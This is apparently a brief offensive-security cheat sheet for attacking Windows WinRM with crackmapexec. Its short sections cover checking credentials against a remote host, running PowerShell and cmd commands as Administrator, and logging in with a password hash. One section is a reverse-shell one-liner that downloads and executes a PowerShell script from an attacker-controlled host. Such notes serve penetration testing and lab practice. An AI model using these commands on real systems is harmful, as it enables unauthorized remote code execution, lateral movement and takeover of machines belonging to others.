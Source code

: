 # winrm

## check connection

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password>
```

## run powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -X <whoami>
```

## run cmd powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -x <dir>
```

## reverse shell

```bash
crackmapexec winrm $rhost -u Administrator -p <password> -X "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://<lhost>:<lport>/reverse-shell/powershell.ps')\""
```

## use hash

```bash
crackmapexec winrm $rhost -u some_user -H "some-hash"
```
